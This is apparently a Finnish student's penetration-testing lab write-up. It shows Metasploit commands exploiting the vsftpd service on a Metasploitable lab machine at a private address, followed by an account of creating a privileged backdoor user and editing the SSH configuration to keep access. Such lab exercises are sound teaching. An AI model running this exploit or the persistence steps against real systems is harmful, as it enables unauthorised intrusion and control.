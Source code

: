 
## f) Murtaudu Metasploitablen VsFtpd-palveluun Metasploitilla (search vsftpd, use 0, set RHOSTS - varmista osoite huolella, exploit, id)

	db_nmap -A -p0-

jälkeen 

	search vsftpd

	use 1

	set RHOSTS 192.168.100.2

	exploit

	
![db_nmap](images/7h3.png)


## g) Parempi sessio. Tee vsftpd-hyökkäyksestä saadusta sessiosta parempi. (Voit esimerkiksi päivittää sen meterpreter-sessioksi, laittaa tty:n toimimaan tai tehdä uuden käyttäjän ja ottaa yhteyden jollain tavallisella protokollalla)

Tein aluksi uuden käyttäjän ja annoin sille sudo ja admin oikeudet, kun yritin kirjautua ssh:lla selvisi että metasploit kone antaa ottaa ssh yhteyden ainoastaan avaimilla. Koitin tämän jälkeen muokata /etc/ssh/sshd_config mutta se kaatoi session, koitin muokata nano:lla jota veikkaisin syypääksi miksi sessio kaatui. 

